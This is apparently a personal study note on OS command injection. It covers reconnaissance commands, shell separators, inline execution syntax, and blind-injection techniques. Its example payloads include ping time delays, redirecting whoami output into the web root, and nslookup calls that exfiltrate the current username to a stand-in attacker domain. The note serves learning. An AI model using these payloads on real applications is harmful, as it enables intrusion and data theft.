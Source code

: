 # Injecting OS commands

## Useful commands

|Purpose of command|Linux|Windows|
|---|---|---|
|Name of current user|`whoami`|`whoami`|
|Operating system|`uname -a`|`ver`|
|Network configuration|`ifconfig`|`ipconfig /all`|
|Network connections|`netstat -an`|`netstat -an`|
|Running processes|`ps -ef`|`tasklist`|

## Ways of injecting

- **command separators**
	- <mark style="background: #BBFABBA6;">windows and linux</mark>:
	  -  `&`
	  - `&&`
	  - `|`
	  - `||`
	- <mark style="background: #FFF3A3A6;">Unix-based systems only</mark>:
		- `;`
		- Newline (`0x0a` or `\n`)

- **inline execution** of another injected command (<mark style="background: #FFF3A3A6;">unix-based only</mark>)
  -  `` `x` `` 
  -  ` $(x) `

- the difference between *shell character's behavior* can cause different impact → in-band / blind 
- input apears in *quoted context* (using `"` or `'`) → terminate befrore inject

## Basic

- Use command seprators + command to retrive data. [[WEB/vulnerabilities/Command Injection/payload#basic|example]]

# Blind 

-  the application does not return the output from the command within its _HTTP response_.
## by using time delays

- _ping_ command 
	- ex:  `& ping -c 10 127.0.0.1 &` [[WEB/vulnerabilities/Command Injection/payload#using time delays|payload]]
## by redirecting output

- `>` , `>>`
	- ex: `& whoami > /var/www/static/whoami.txt &` [[WEB/vulnerabilities/Command Injection/payload#by redirecting output|payload]]

## by using out-of-band (OAST)

- *`nslookup`* + inline execution+ a *domain* which the attacker controls: [[WEB/vulnerabilities/Command Injection/payload#by using out-of-band (OAST)|payload]]
	- ex: `& nslookup kgji2ohoyw.web-attacker.com &`
	- ex: ``& nslookup `whoami`.kgji2ohoyw.web-attacker.com &`` => `wwwuser.kgji2ohoyw.web-attacker.com`
/gitcomm